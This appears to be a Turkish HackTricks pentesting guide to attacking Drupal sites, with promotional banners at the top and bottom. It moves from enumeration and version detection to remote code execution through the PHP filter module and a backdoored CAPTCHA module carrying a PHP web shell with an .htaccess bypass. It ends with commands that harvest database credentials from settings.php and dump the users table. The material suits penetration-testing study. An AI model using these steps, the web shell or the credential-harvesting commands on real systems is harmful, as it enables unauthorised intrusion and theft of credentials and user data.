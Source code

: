 # Drupal

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahraman olmaya kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na(https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Keşif

* **meta**'yı kontrol edin
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **içeriği düğümler kullanarak dizinler**. Bir düğüm herhangi bir şeyi içerebilir, örneğin bir blog yazısı, anket, makale vb. Sayfa URI'leri genellikle `/node/<düğüm kimliği>` şeklindedir.
```bash
curl drupal-site.com/node/1
```
## Numaralandırma

Drupal varsayılan olarak **üç tür kullanıcıyı** destekler:

1. **`Yönetici`**: Bu kullanıcı Drupal web sitesi üzerinde tam kontrol sahibidir.
2. **`Doğrulanmış Kullanıcı`**: Bu kullanıcılar web sitesine giriş yapabilir ve izinlerine bağlı olarak makale ekleyebilir ve düzenleyebilir.
3. **`Anonim`**: Tüm web sitesi ziyaretçileri anonim olarak belirlenir. Varsayılan olarak, bu kullanıcılara yalnızca gönderileri okuma izni verilir.

### Sürüm

* `/CHANGELOG.txt` dosyasını kontrol edin.
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal'ın daha yeni kurulumları varsayılan olarak `CHANGELOG.txt` ve `README.txt` dosyalarına erişimi engeller.
{% endhint %}

### Kullanıcı adı numaralandırma

#### Kayıt

_/user/register_ adresinde sadece bir kullanıcı adı oluşturmayı deneyin ve eğer ad zaten alınmışsa bildirim alırsınız:

![](<../../.gitbook/assets/image (325).png>)

#### Yeni şifre iste

Mevcut bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (900).png>)

Mevcut olmayan bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (304).png>)

### Kullanıcı sayısını al

_/user/\<number>_ adresine erişerek mevcut kullanıcı sayısını görebilirsiniz, bu durumda _/users/3_ adresi bulunamadı hatası döndürür:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Gizli sayfalar

**`/node/$` şeklinde bir sorgulama yapın, burada `$` bir numaradır** (örneğin 1 ile 500 arasında).\
Bu şekilde **gizli sayfalar** (test, dev) bulabilirsiniz, bu sayfalar arama motorları tarafından referans alınmamış olabilir.

#### Kurulu modüller bilgisi
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Otomatik
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP Filtre Modülü ile

{% hint style="warning" %}
Drupal'ın **(8. sürümden önceki sürümlerinde)** eski versiyonlarında, bir yönetici olarak giriş yaparak **`PHP filtresi` modülünü etkinleştirmek** mümkündü, bu da "Gömülü PHP kodlarının değerlendirilmesine izin verir."
{% endhint %}

**Eklentinin php olarak yüklü olması gerekmektedir** (bunu kontrol etmek için _/modules/php_ adresine erişerek kontrol edin ve eğer **403** hatası alırsanız, **mevcut** demektir, eğer **bulunamadı** hatası alırsanız, **php eklentisi yüklü değildir**)

_Modüller_ -> (**Kontrol Et**) _PHP Filtresi_ -> _Yapılandırmayı Kaydet_

![](<../../.gitbook/assets/image (247) (1).png>)

Ardından _İçerik Ekle_'ye tıklayın -> _Temel Sayfa_ veya _Makale_ seçin -> _Gövdede php kabuk kodunu yazın_ -> _Metin formatında_ _PHP kodu_ seçin -> _Önizleme_ seçin

![](<../../.gitbook/assets/image (335).png>)

Son olarak sadece yeni oluşturulan düğüme erişin:
```bash
curl http://drupal-site.local/node/3
```
### PHP Filtre Modülünü Yükle

Sürüm **8 ve sonrasında**, [**PHP Filtre**](https://www.drupal.org/project/php/releases/8.x-1.1) **modülü varsayılan olarak yüklenmez**. Bu işlevselliği kullanabilmek için **modülü kendimiz yüklememiz gerekecek**.

1. Modülün en güncel sürümünü Drupal web sitesinden indirin.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. İndirildikten sonra **`Yönetim`** > **`Raporlar`** > **`Kullanılabilir güncellemeler`** bölümüne gidin.
4. **`Gözat`**'a tıklayın, dosyayı indirdiğimiz dizinden seçin ve ardından **`Yükle`**'ye tıklayın.
5. Modül yüklendikten sonra **`İçerik`** üzerine tıklayarak **yeni bir temel sayfa oluşturun**, Drupal 7 örneğinde yaptığımız gibi. Yine, **`Metin biçimi` açılır menüsünden `PHP kodu`'nu seçtiğinizden emin olun**.

### Arka Kapılı Modül

Bir arka kapılı modül, **mevcut bir modüle bir kabuk ekleyerek oluşturulabilir**. Modüller drupal.org web sitesinde bulunabilir. Örneğin [CAPTCHA](https://www.drupal.org/project/captcha) gibi bir modül seçelim. Aşağı doğru kaydırın ve tar.gz [arşivi](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) için bağlantıyı kopyalayın.

* Arşivi indirin ve içeriğini çıkarın.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* İçeriğiyle bir **PHP web kabuğu** oluşturun:
```php
<?php
system($_GET["cmd"]);
?>
```
* Ardından, kendimize klasöre erişim sağlamak için bir **`.htaccess`** dosyası oluşturmamız gerekiyor. Bu, Drupal'ın **`/modules`** klasörüne doğrudan erişimi reddettiği için gereklidir.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Yukarıdaki yapılandırma, /modules içinde bir dosya istediğimizde / klasörü için kurallar uygulayacaktır. Bu dosyaları captcha klasörüne kopyalayın ve bir arşiv oluşturun.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Websiteye **yönetici erişimine** sahip olduğumuzu varsayarak, **`Yönet`** üzerine tıklayın ve ardından kenar çubuğunda **`Genişlet`** seçeneğine tıklayın. Daha sonra **`+ Yeni modül yükle`** düğmesine tıklayın ve yükleme sayfasına yönlendirileceksiniz, örneğin `http://drupal-site.local/admin/modules/install` Backdoor ekli Captcha arşivine göz atın ve **`Yükle`**'ye tıklayın.
* Yükleme başarılı olduktan sonra, komutları yürütmek için **`/modules/captcha/shell.php`** sayfasına göz atın.

## Sonrası Sızma

### settings.php Dosyasını Okuyun
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Veritabanından kullanıcıları dökün
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referanslar

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
